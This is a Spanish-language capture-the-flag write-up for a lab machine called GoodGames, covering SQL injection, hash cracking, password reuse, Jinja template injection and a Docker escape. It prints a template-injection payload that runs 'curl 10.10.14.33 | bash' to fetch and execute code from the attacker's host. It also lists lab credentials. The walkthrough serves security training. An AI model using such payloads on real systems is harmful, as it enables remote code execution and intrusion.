 # GoodGames

**Sistema Operativo**: Linux

**Dificultad**: Facil

**Técnicas Vistas**: SQLI (Error Based) /
Hash Cracking Weak Algorithms /
Password Reuse /
Server Side Template Injection (SSTI) /
Docker Breakout (Privilege Escalation) [PIVOTING]

Te prepara para las **Certificaciones**: eJPT eWPT eCPPTv3 OSCP (Escalada) <br><br>

![goodgames](https://github.com/user-attachments/assets/e503fca8-b7b0-4250-b81c-3c892bb91b89)<br><br>


# Reconocimiento

Utilizando `nmap` vemos los puertos mas comunes<br>
![image](https://github.com/user-attachments/assets/42773b8d-37d2-4fa5-a7fc-3c5d7fd18214)<br>


- `-p-` -> Escanea todos los puertos 
- `-sS` -> escaneo de tipo SYN
- `--open` -> Todos los puertos abiertos
- `--min-rate=5000` -> Manda mínimo 5000 paquetes por segundo
- `-Pn` -> Asume que el host especificado está activo
- `-vvv` -> Aplica triple Verbose 
- `-n` -> Que no aplique resolución DNS
- `-oG allports` -> manda todo a un archivo con nombre de "allports"


Utilizando `nmap` lanzamos los scripts mas comunes.<br>
![image](https://github.com/user-attachments/assets/e728f257-29df-483e-824e-d961d98ee0e1)<br><br>


# Explotación SQL

Ingresamos al Usuario admin<br>
![image](https://github.com/user-attachments/assets/1a5044f3-efd2-4a70-9cd8-999df661995b)<br><br>

En `/etc/hosts` ponemos el subdominio<br>
![image](https://github.com/user-attachments/assets/e56b8b98-fba8-4d2c-90f2-0bc36b97eb05)
<br><br>

Utilizando `burpsuite` mediante una inyección SQL vemos las columnas.<br>
![image](https://github.com/user-attachments/assets/304c0d44-5bae-488e-9e06-4f39e10df260)<br><br>


Encontramos la contraseña de admin cifrada<br>
![image](https://github.com/user-attachments/assets/2321141c-2d30-4806-8821-4b43a36cabf6)<br><br>


Descubrimos la contraseña utilizando `john`.<br>
![image](https://github.com/user-attachments/assets/3e6a045c-43e0-410f-bb7a-e9d9e612821f)<br>
- `-w` -> le indicamos el diccionario a usar.
- `hash` -> Contraseña a crackear.
- `--format=Raw-MD5` -> Formato MD5.<br><br>


# Explotación SSTI

Identificación del campo para el SSTI
![image](https://github.com/user-attachments/assets/48c64ab7-3dbd-41ec-9a36-d5614bf4053e)


## Paso 1

Creo este index.html<br>

![image](https://github.com/user-attachments/assets/5e4a0381-66a3-452f-8722-64872aec2dbd)<br><br>


## Paso 2

Abro servidor Python por el puerto 80<br>

![image](https://github.com/user-attachments/assets/8e288815-ca96-41b5-a83e-91cfe1e7a9b2)<br><br>


## Paso 3

Me pongo en escucha<br>
![image](https://github.com/user-attachments/assets/029a65ce-76a3-43a3-80c5-1e1bcac6ea4d)<br><br>


## Paso 4

Abro el index con `curl` y lo interpreto con `bash`<br>

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('curl 10.10.14.33 | bash').read() }}
```
<br><br>

# Escalada de privilegios

Estoy en una montura, por que el usuario augustus no existe en /etc/passwd<br>
![image](https://github.com/user-attachments/assets/434fb5d6-cdb9-4065-8f18-8fd0fd98d486)<br><br>


Detectar puertos abiertos:<br>
![image](https://github.com/user-attachments/assets/a28bac53-19e1-4c0b-a088-906180c14b6b)<br><br>


Creamos script de `bash` para encontrar puertos abiertos, lo convertimos a base64.<br>
![image](https://github.com/user-attachments/assets/598682c9-6583-48b2-9504-064030f03cfc)<br><br>

Vemos el puerto 22 abierto:<br>
![image](https://github.com/user-attachments/assets/79d679fc-86c0-404a-afd6-04a749d30101)<br><br>

Nos conectamos como augustus con la contraseña "superadministrator"<br>
![image](https://github.com/user-attachments/assets/8fed4e6e-7548-4511-a4f0-b6f4e27e66e5)<br><br>

Encontramos las credenciales para la base de datos<br>
![image](https://github.com/user-attachments/assets/63cebcba-c6b2-4784-a286-4bc50090337b)<br><br>

- `  mysql -u 'main_admin' -D 'main' -h 127.0.0.1 -p   `
- `C4n7_Cr4cK_7H1S_pasSw0Rd!`

- `show databases;` -> Nos muestra las bases de datos
- `use main;` -> Para usar una base de datos
- `show tables; ` -> Para ver las tablas
- `describe user;` -> Para ver las columnas
- `select name,password from user;` -> Para ver los datos en name y password

Le hacemos un ataque de fuerza bruta con `john`<br>
![image](https://github.com/user-attachments/assets/6f33f592-f6e3-4a2b-966f-6fb30bfa42a7)<br><br>

Encontramos una contraseña:<br>
![image](https://github.com/user-attachments/assets/2cc3a90d-b2a5-485d-b091-a6f5d28855e0)<br><br>


![image](https://github.com/user-attachments/assets/f9fe19eb-b24d-46fd-a367-9ece07336933)<br><br>

Flag:<br>
![image](https://github.com/user-attachments/assets/e3595a3c-c2ff-44dd-8f80-3d42f816b18c)<br><br>

